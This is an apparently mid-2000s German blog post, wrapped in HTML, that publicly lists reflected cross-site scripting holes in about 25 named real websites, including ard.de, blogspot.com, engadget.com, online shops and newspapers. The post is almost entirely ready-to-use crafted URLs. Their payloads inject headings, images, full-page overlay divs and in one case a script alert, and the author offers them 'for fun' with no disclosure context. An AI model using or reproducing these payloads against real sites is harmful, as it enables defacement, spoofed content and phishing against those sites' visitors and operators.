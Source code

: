 <html><body><p>Und heute wieder einige nette XSS Lücken,<br>

es sind unter anderem ein paar Shops, der Hoster von ccc.de, ard.de, <strong>blogspot.com</strong> und ein paar Zeitungen dabei.<br>

Viel Spaß damit!<br>

<br>

<a href="http://www.getdigital.de/index/searchresult/?search=%3Cimg%20src=http://www.thinkgeek.com/images/tg-logo.gif%3E" target="_blank">getdigital.de</a><br>

<a href="http://www.pro-linux.de/cgi-bin/s.cgi?q=%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Eownd+by+M%24%3Cbr%3E%3Cbr%3E%3Cbr%3E%3C%2Fbody%3E%3C%2Fhtml%3E%3C%21--&amp;cs=iso8859-1&amp;cs=iso8859-1&amp;gr=off&amp;ul=" target="_blank">pro-linux.de</a><br>

<a href="http://www.snafu.de/cgi-bin/dotnet/web/archiv.cgi?search=%22%3E%3Cbr%3E%3Cimg%20src=%22http://www.ccc.de/images/logos/l_chaosknoten_1.png%22%3Ch1%3EUnd%20ich%20dachte,%20CCC%20sei%20sicher...%3C/h1%3E%3E&amp;serv=www.snafu.de&amp;action=List&amp;table=artikel&amp;rubrik=1&amp;displrow=id,titel,datum&amp;verlinkt=titel&amp;orderby=datum" target="_blank">snafu.de</a> (bereits von anderen während des 23C3 gefunden, aber immer noch nicht gefixt)<br>

<a href="http://www.verbraucherzentrale-nrw.de/link27473A.html?search=%27%3E%3Ch1%3ESch%26uuml%3Btzt+die+Verbraucher%21%3C%2Fh1%3E%3Cimg+src%3D%22http%3A%2F%2Fwww.microsoft.com%2Flibrary%2Ftoolbar%2F3.0%2Fimages%2Fbanners%2Fms_masthead_ltr.gif%22%3E%3Cbr%3E&amp;x=0&amp;y=0" target="_blank">verbraucherzentrale-nrw.de</a><br>

<a href="http://www.vz-bawue.de/link271142A.html?search=%27%3E%3Ch1%3ESch%26uuml%3Btzt+die+Verbraucher%21%3C%2Fh1%3E%3Cimg+src%3D%22http%3A%2F%2Fwww.microsoft.com%2Flibrary%2Ftoolbar%2F3.0%2Fimages%2Fbanners%2Fms_masthead_ltr.gif%22%3E&amp;x=0&amp;y=0" target="_blank">vz-bawue.de</a><br>

<a href="https://bugtrack.alsa-project.org/wiki/wikka.php?wakka=TextSearch&amp;phrase=%3Ch1%3ENOT+powered+by%3C%2Fh1%3E%3Cbr%3E%3Cimg+src%3D%22http%3A%2F%2Flinux-sound.org%2Fimages%2Foss-logo.gif%22%3E%3Ch2%3ELook+for+this+nice+and+secure+HTTPS+site%21%3C%2Fh2%3E" target="_blank">alsa-project.org</a> (HTTPS!)<br>

<a href="http://www.netzeitung.de/servlets/search?execute=query&amp;p_search_id=SEARCH_ALL&amp;p_qry=%22%3E%3Cdiv%20style=%22position:fixed;left:0;top:0;width:1500;height:1500;color:red;background-color:white%22%3ENICHT-nett-Zeitung%3C/div%3E&amp;p_newsItemGroup=0&amp;auswahl=" target="_blank">netzeitung.de</a><br>

<a href="http://xchat.org/cgi-bin/search.pl?str=%3Ch1%3EYou%20know,%20OpenSource%20is%20great,%20but%20OpenDoors%20are%20evil...%3C/h1%3E%3Cimg%20src=%22http://mirc.com/logo.gif%22%3E&amp;cat=0&amp;Submit=Search" target="_blank">xchat.org</a><br>

<a href="http://www.pearl.de/search.jsp?query_type=1&amp;query=%22%3E%3Cdiv%20style=%22position:fixed;left:0;top:0;width:1000;height:1000;color:red;background-color:white%22%3Eamazon?%3C/div%3E&amp;x=0&amp;y=0" target="_blank">pearl.de</a><br>

<a href="http://www.computerbild.de/php/2003/navi2002.php?RUBRIK=%3Ch1%3Ect%20Leser%20wissen%20mehr%3C/h1%3E%3Cimg%20src=http://www.heise.de/ct/icons/ct_logo.gif%3E%3Cbr%3E" target="_blank">computerbild.de</a><br>

<a href="http://news.zgk.de/newsletter_verwaltung.php?aktion=1&amp;gruppen_id=12&amp;email2=%22%3E%3Ch1%3EBild-Leser....%3C/h1%3E%3Cimg%20src=http://www.bild.t-online.de/BTO/System/Bilder/logo.gif%3E%3Cbr%3E" target="_blank">zgk.de</a><br>

<a href="http://linz.irc.at/site/l-news.php?lang=%22%3E%3Cdiv%20style=position:fixed;left:0;top:0;width:1000;height:1000;color:red;background-color:white;font-size:60pt%3EHallo%20Jungs.%20Hallo%20ZZyZZ%3C/div%3E" target="_blank">irc.at</a><br>

<a href="http://www.linux.de/member/lost.php3?email=%22%3E%3Ch1%3EWindows%20oder%20Linux%20oder%20doch%20MacOS...%3C/h1%3E%3Cimg%20src=%22http://cdn-85.cdn.buzznet.com/assets/users9/keithlam/default/Tux_says_Windows_sucks--feat-msg-1127113593-2.jpg%22%3E" target="_blank">linux.de</a><br>

<a href="http://bash.insiderz.de/index.php?quoteID=%3Ch1%3EHail%20HERZ!%3C/h1%3E%3Cimg%20src=http://www.german-freakz.net/images/gf-banner.jpg%3E" target="_blank">insiderz.de</a><br>

<a href="http://www.torrent.to/torrent/start_search.php?Active=Moviez&amp;Search=%22%3E%3Cdiv%20style=position:fixed;left:0;top:0;width:1000;height:1000;color:red;background-color:white;font-size:60pt%3Eillegal?%3C/div%3E" target="_blank">torrent.to</a><br>

<a href="https://shop.wolters-kluwer.de/suche.html?suche=%3Cimg%20src=%22http://cdn-85.cdn.buzznet.com/assets/users9/keithlam/default/Tux_says_Windows_sucks--feat-msg-1127113593-2.jpg%22%3E&amp;submitButtonName=Suchen" target="_blank">wolters-kluwer.de</a> (HTTPS!)<br>

<a href="http://sport.ard.de/sp/komponente/suchen/index.jhtml?q=%3Ch1%3ESport%20ist%20Mord!%3C/h1%3E&amp;x=0&amp;y=0" target="_blank">ard.de</a><br>

<a href="http://www.evendi.de/jsp/eVendi2004/search.jsp?name=%3Cimg%20src=%22http://n-tv.de/s/ntv_logo_head_95x35.gif%22%3E" target="_blank">evendi.de</a> (thx to wodkahexe)<br>

<a href="http://koelnticket.de/index.php?mapid=suchergebnis&amp;mode=newsearch&amp;schnellsuche=1&amp;ev_status=-1&amp;suchstring=%3Cimg%20src=%22http://www.drakkar.de/images/lordi_hardrockhallelujah.jpg%22%3E&amp;x=0&amp;y=0&amp;zeitraum=0&amp;am_tag=0&amp;am_monat=0&amp;am_jahr=0&amp;mapid=suchergebnis&amp;mode=newsearch&amp;ort=Ihrer+Stadt" target="_blank">koelnticket.de</a><br>

<a href="http://www.dticket.de/events.asp?suchart=stichwort&amp;Stichwort=%3Cimg%20src=%22http://www.drakkar.de/images/lordi_hardrockhallelujah.jpg%22%3E&amp;suche2=zeitraum&amp;imageField2.x=0&amp;imageField2.y=0" target="_blank">dticket.de</a><br>

<a href="https://www.rp-online.de/app/suche/?head_suchen=Suchen&amp;search=%3Ch1%3EBild%20dir%20deine%20Meinung%3C/h2%3E%3Cimg%20src=%27http://www.bild.t-online.de/BTO/System/Bilder/logo.gif%27%3E&amp;searchin=rpo" target="_blank">rp-online.de</a><br>

<a href="http://n-tv.de/472.html?ei=ISO-8859-1&amp;fr=cb-ntv&amp;meta=1&amp;query=%3Cscript%3Ealert%28%22bla%22%29%3C%2Fscript%3E&amp;p=%3Cscript%3Ealert%28%22bla%22%29%3C%2Fscript%3E&amp;m=n" target="_blank">n-tv.de</a> (thx to wodkahexe, bereits von n-tv behoben)<br>

<a href="http://www.linuxdevices.com/cgi-bin/news_view.cgi?sk=%22%3E%3Cimg%20src=%22http://www.microsoft.com/library/toolbar/3.0/images/banners/ms_masthead_ltr.gif%22%3E&amp;st=all&amp;view=Search&amp;ss=newwest" target="_blank">linuxdevices.com</a><br>

<a href="http://momtoadiva.blogspot.com/search?q=%3C/title%3E%3C/head%3E%3Cbody%3E%3Ch1%3EWTF?!%3C/h1%3E%3Cimg%20src=%22http://www.google.com/intl/en_ALL/images/logo.gif%22%3E" target="_blank">blogspot.com</a><br>

<a href="http://www.crabbel.de/index.php?cms=suchen&amp;sprache=de&amp;allowed=1&amp;keyword=%3Ch1%3Eso%20sekure%20u%20r%3C%2Fh1%3E&amp;submit.x=0&amp;submit.y=0" target="_blank">crabbel.de</a> (thx to wodkahexe)<br>

<a href="http://www.engadget.com/search/?q=%3Ch1%3EYOU%20should%20know%20better...%3C/h1%3E" target="_blank">engadget.com</a></p></body></html>
